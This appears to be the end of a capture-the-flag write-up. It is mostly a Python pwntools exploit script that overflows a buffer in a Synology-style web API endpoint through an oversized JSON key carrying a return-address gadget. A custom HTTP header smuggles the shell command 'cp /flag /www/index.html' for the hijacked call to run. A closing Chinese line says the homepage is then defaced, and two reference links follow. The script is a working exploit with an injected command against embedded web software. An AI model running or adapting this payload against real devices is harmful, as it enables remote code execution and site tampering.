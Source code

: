 ```plain

r = remote(ip, port)

binary_base = 0x400000

#gadget = 0x14D5c + binary_base
gadget = 0x14D5c + binary_base
#gadget = 0x414d5c
#gadget = 0x00018a7c + binary_base
#gadget = 0x14d60 + binary_base

# 0x00018a7c : mov r0, r2 ; blx r3

cmd = b'$HTTP_A'
cmd = cmd.ljust(8, b';')

p1 = b'a ' + b'b' * (0x60 + 0x24 - 8) + cmd + b'\u005c\u004d\u0041'#p32(gadget)[:3]

value = b'""'
json = b'{"' + p1 + b'": ""}'
li(json)

rn = b'\r\n'

p3 = b''
p3 += b'POST /syno-api/security/info/mac HTTP/1.1' + rn
p3 += (b"Content-Length: %d" % len(json)) +rn
p3 += b'Host: 127.0.0.1:8801' + rn
p3 += b'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"' + rn
p3 += b'A: cp /flag /www/index.html' + rn
p3 += b'Accept: text/plain, */*; q=0.01' + rn
p3 += b'Content-Type: application/json' + rn
p3 += b'X-Requested-With: XMLHttpRequest' + rn
p3 += b'sec-ch-ua-mobile: ?0' + rn
p3 += b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36' + rn
p3 += b'sec-ch-ua-platform: "macOS"' + rn
p3 += b'Origin: http://127.0.0.1:8801' + rn
p3 += b'Sec-Fetch-Site: same-origin' + rn
p3 += b'Sec-Fetch-Mode: cors' + rn
p3 += b'Sec-Fetch-Dest: empty' + rn
p3 += b'Referer: http://127.0.0.1:8801/' + rn
p3 += b'Accept-Encoding: gzip, deflate' + rn
p3 += b'Accept-Language: zh-CN,zh;q=0.9' + rn
p3 += b'Cookie: sid=sBmrHHr4XX4TKaIjv0Vw6L3I15y46m47DO9qeF79CPjquIMOAHX6ygmRJ2AaNleg' + rn
p3 += b'Connection: close' + rn
p3 += rn
p3 += json

li('[+] sendling payload')
r.send(p3)

r.interactive()
```

重新访问就可以看到主页被篡改

## Reference

[https://eqqie.cn/index.php/archives/2076](https://eqqie.cn/index.php/archives/2076)

[https://blog.csdn.net/tuzhutuzhu/article/details/23705485](https://blog.csdn.net/tuzhutuzhu/article/details/23705485)
